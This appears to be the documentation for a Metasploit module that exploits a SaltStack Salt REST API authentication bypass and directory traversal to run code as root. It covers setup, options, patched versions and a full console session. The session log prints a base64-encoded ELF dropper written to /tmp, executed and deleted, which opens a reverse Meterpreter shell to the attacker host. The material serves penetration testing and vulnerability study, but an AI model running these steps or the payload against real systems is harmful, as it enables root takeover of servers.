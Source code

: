 ## Vulnerable Application

### Description

This module leverages an authentication bypass and directory traversal
vulnerabilities in Saltstack Salt's REST API to execute commands remotely on
the `master` as the root user.

Every 60 seconds, `salt-master` service performs a maintenance process check
that reloads and executes all the `grains` on the `master`, including [custom
grain
modules](https://docs.saltproject.io/en/latest/topics/grains/#writing-grains)
in the Extension Module directory (see `EXTMODSDIR` [option](#extmodsdir)). So,
this modules simply creates a Python script at this location and wait for being
executed. The time interval is set to 60 seconds by default but can be changed
in the `master` configuration file with the `loop_interval` option. Note that,
if an administrator executes commands locally on the `master`, the maintenance
process check will also be performed.

It has been fixed in the following installation packages: 3002.5, 3001.6 and
3000.8

Also, a patch is available for the following versions: 3002.2, 3001.4, 3000.6,
2019.2.8, 2019.2.5, 2018.3.5, 2017.7.8, 2016.11.10, 2016.11.6, 2016.11.5,
2016.11.3, 2016.3.8, 2016.3.6, 2016.3.4, 2015.8.13 and 2015.8.10

This module has been tested successfully against versions 3001.4, 3002 and
3002.2 on Ubuntu 18.04

### Setup

Follow the [installation steps](https://repo.saltstack.com/#ubuntu) for Ubuntu
or choose another OS from the same page.

## Verification Steps

1. Install the application (follow [Setup](#setup))
1. Start msfconsole
1. Do: `use exploit/linux/http/saltstack_salt_wheel_async_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `run`
1. You should get a Meterpreter session.

## Targets

### 0 (Unix Command)

This executes a Unix command.

### 1 (Linux Dropper)

This uses a Linux dropper to execute code.

## Options

### TARGETURI

The base path of the Saltstack Salt application, which is set to `/` by
default.

### EXTMODSDIR

The Extension Module directory ("extmods") for the `master`. On older versions,
this directory was `/var/cache/salt/extmods`. It has been moved to
`/var/cache/salt/master/extmods` from version `2016.3.0` and is the default
option value. The Python file will be placed in the `grains` directory under
this path. Salt automatically creates the sub-directories if they don't exist.

## Scenarios

### SaltStack Salt 3002.2 on Ubuntu 18.04

```
msf6 > use exploit/linux/http/saltstack_salt_wheel_async_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set rhosts 192.168.144.188
rhosts => 192.168.144.188
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set lhost 192.168.144.1
lhost => 192.168.144.1
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > options

Module options (exploit/linux/http/saltstack_salt_wheel_async_rce):

   Name        Current Setting                 Required  Description
   ----        ---------------                 --------  -----------
   EXTMODSDIR  /var/cache/salt/master/extmods  yes       The Extension Module Directory ("extmods")
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.144.188                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       8000                            yes       The target port (TCP)
   SSL         true                            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI   /                               yes       Base path
   URIPATH                                     no        The URI to use for this exploit (default is random)
   VHOST                                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > run

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Salt API responded as expected.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/WlZHG.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ykmTR' < '/tmp/WlZHG.b64' ; chmod +x '/tmp/ykmTR' ; '/tmp/ykmTR' & sleep 2 ; rm -f '/tmp/ykmTR' ; rm -f '/tmp/WlZHG.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/WlZHG.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ykmTR' < '/tmp/WlZHG.b64' ; chmod +x '/tmp/ykmTR' ; '/tmp/ykmTR' & sleep 2 ; rm -f '/tmp/ykmTR' ; rm -f '/tmp/WlZHG.b64'
[*] Waiting for the Salt maintenance process check to trigger the payload. This could take some time...
[*] Command Stager progress - 102.16% done (851/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.144.188
[+] Deleted /var/cache/salt/master/extmods/grains/lUhZUGix.py
[+] Deleted /var/cache/salt/master/extmods/grains/__pycache__/lUhZUGix.cpython-36.pyc
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.188:42792) at 2021-03-26 14:58:16 +0100

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.144.188
OS           : Ubuntu 18.04 (Linux 5.4.0-70-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
